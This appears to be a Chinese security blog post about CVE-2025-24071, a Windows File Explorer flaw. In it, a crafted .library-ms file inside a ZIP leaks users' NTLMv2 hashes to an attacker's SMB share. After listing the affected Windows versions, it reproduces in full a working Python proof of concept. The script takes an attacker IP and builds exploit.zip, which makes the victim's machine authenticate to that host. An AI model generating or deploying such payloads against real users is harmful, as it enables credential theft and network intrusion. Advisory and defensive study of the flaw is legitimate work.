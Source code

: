 #  CVE-2025-24071｜Windows 文件资源管理器欺骗漏洞（POC）   
alicy  信安百科   2025-03-30 18:00  
  
**0x00 前言**  
  
  
Windows 文件资源管理器（File Explorer）是Windows操作系统的核心组件，主要用于浏览、管理和操作本地及网络文件、文件夹、驱动器等资源。它提供直观的图形化界面，支持文件创建、复制、移动、删除、重命名等基础操作，同时集成网络共享访问、外部设备管理、文件搜索与筛选等高级功能，是多任务文件处理的核心工具‌。  
  
  
  
**0x01 漏洞描述**  
  
  
Windows 资源管理器在解压包含特制 .library-ms 文件的 RAR/ZIP 存档时，会自动解析该文件内嵌的恶意 SMB 路径（如 \\192.168.1.116\shared），触发隐式 NTLM 认证握手，导致用户 NTLMv2 哈希泄露。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-24071  
  
  
  
**0x03 影响版本**  
  
```
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows Server 2025
Windows 11 Version 24H2 for x64-based Systems
Windows 11 Version 24H2 for ARM64-based Systems
Windows Server 2022, 23H2 Edition (Server Core installation)
Windows 11 Version 23H2 for x64-based Systems
Windows 11 Version 23H2 for ARM64-based Systems
Windows Server 2025 (Server Core installation)
Windows 10 Version 22H2 for 32-bit Systems
Windows 10 Version 22H2 for ARM64-based Systems
Windows 10 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for ARM64-based Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/0x6rss/CVE-2025-24071_PoC/  
  
```
import os
import zipfile

def main():
    file_name = input("Enter your file name: ")
    ip_address = input("Enter IP (EX: 192.168.1.162): ")


    library_content = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\{ip_address}\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
"""

    library_file_name = f"{file_name}.library-ms"
    with open(library_file_name, "w", encoding="utf-8") as f:
        f.write(library_content)


    with zipfile.ZipFile("exploit.zip", mode="w", compression=zipfile.ZIP_DEFLATED) as zipf:
        zipf.write(library_file_name)


    if os.path.exists(library_file_name):
        os.remove(library_file_name)

    print("completed")

if __name__ == "__main__":
    main()
```  
  
  
  
  
**0x05 参考链接**  
  
  
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-30208｜Vite任意文件读取漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485894&idx=1&sn=10f8c9191b8edc1fdad2526bc52fab68&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-25064｜Zimbra存在SQL注入漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485812&idx=3&sn=59502076ba73b38962af8c4347429207&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-56145｜Craft CMS远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485759&idx=2&sn=96f564df935b660642e688cdd6f747c1&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
